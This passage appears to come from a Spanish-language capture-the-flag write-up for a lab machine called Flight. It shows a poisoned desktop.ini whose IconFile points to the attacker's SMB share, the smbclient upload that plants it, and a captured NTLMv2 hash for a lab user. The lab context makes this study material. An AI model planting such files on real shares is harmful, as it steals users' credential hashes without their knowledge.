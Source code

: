 Pero sucede que si intentamos escribir en este share un ejecutable con psexec la máquina nos lo niega, puede que haya algún antivirus por lo tanto.

Pensemos, podemos subir cualquier archivo menos ejecutables; archivos ini, comprimidos, textos... espera, ¿ini?... hmmm

¿No te has preguntado que hacen estos archivos `desktop.ini` ocultos por tus carpetas?

![desktop.ini](/assets/writeups/flight/additional.png)

Estos archivos tienen una función especial, y es la de precargar todos los iconos y metadatos de la carpeta actual, la estructura de uno común es parecida a esto

{% highlight ini %}
[.ShellClassInfo]
NoSharing=1
IconIndex=-141
InfoTip=Esta es la carpeta de mi música.
{% endhighlight %}

Existe una propiedad llamada `IconFile` que se le puede colocar a estos archivos de configuración, te permite especificar un archivo personalizado de iconos para cargar, puedes especificarle una ruta absoluta asi como **un recurso compartido**.

Podemos probar a ver si hay alguna persona monitoreando el recurso compartido "Shared" colocando un `desktop.ini` como este para que cuando la persona abra la carpeta su sistema intente cargar el fichero de iconos en nuestro recurso compartido y a la vez nos devuelva el hash NTLMv2 de su usuario en cuestión

{% highlight ini %}
[.ShellClassInfo]
IconFile=\\10.10.14.39\icons\main.ico
{% endhighlight %}

Vamos a subirlo usando smbclient al recurso:

{% highlight bash %}
#smbclient -U "s.moon" //flight.htb/Shared

smb: \> ls
  .                                   D        0  Sat May  6 04:45:41 2023
  ..                                  D        0  Sat May  6 04:45:41 2023

		5056511 blocks of size 4096. 1196917 blocks available
smb: \> put desktop.ini
putting file desktop.ini as \desktop.ini (0.0 kb/s) (average 0.0 kb/s)
{% endhighlight %}

En los segundos de colocar el archivo, sin siquiera colocarle el bit de archivo oculto nos llega una autenticación SMB al servidor que hemos colocado antes.

{% highlight bash %}
[*] Incoming connection (10.10.11.187,53360)
[*] AUTHENTICATE_MESSAGE (flight.htb\c.bum,G0)
[*] User G0\c.bum authenticated successfully
[*] c.bum::flight.htb:aaaaaaaaaaaaaaaa:744ccbb8540c9014557af1e053985356:01010000000000000038696abc7fd9015e9b9cc20c0aba8300000000010010007a004300470079007700410065006100030010007a00430047007900770041006500610002001000580051005700450041005300530066000400100058005100570045004100530053006600070008000038696abc7fd90106000400020000000800300030000000000000000000000000300000f37fb59870b03702d1038e537042b995e28d50444162f1a69a511a324a4a3fa40a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00330039000000000000000000
[*] Closing down connection (10.10.11.187,53360)
{% endhighlight %}
